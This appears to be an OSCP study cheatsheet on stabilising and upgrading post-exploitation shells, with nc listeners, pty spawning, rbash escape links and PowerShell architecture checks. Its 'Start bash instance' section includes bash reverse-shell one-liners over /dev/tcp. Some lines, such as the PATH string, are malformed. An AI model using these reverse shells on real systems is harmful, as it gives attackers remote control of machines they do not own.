 ```yaml
---
title: Upgrading and Improving Shells
author: linatl
category: "OSCP"
date: "2021-03-08 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### TMUX
```

```


###### Tricks to improve a crappy shell
```
rlwrap
> rlwrap -r nc -nvlp 443

Turning terminal echo off:
1
Ctrl + Z in the nc instance to move the shell to the background;
2
> stty raw echo; fg
For also getting the ability to clear the screen:
3
In the nc shell:
> export term=XTERM

```

###### Upgrading Shells
```
Upgrade sh to bash using python (2 or 3)
> python -c 'import pty; pty.spawn("/bin/sh")'
> python -c 'import pty; pty.spawn("/bin/bash")'

Correcting the $PATH variable for sh / bash
> export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin/usr/bin:/sbin:/binusr/local/sbin:/usr/local/bin:/usr/sbin:/bin

Upgrading from rbash:
https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/
https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/

Start bash instance:
> /bin/bash -i >& /dev/tcp/192.168.1.1/80 0>&1
> /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.1.1/80 0>&1'

```

###### Check Architecture of a PowerShell connection

~|32 bit folder|64 bit folder|
---|---|---
32-bit session | C:\Windows\system32\ | C:\Windows\sysNative
64-bit session | C:\Windows\sysWOW64\ | C:\Windows\system32

```
Check architecture of the host
> [system.environment]::Is64BitOperatingSystem

Check architecture of powershell environment:
> [Environment]::Is64BitProcess

alternative to check arch in ps environment:
> [IntPtr]::Size
The value of this property is 4 in a 32-bit process, and 8 in a 64-bit process.

For example: If you get a shell trough a webserver running in a 32bit process but the host is 64bit, powershell will by default open a 32bit process.
This can be solved by specifically calling powershell with the following path:
C:\Windows\sysNative\WindowsPowerShell\v1.0\powershell.exe

More info:
https://ss64.com/nt/syntax-64bit.html
```
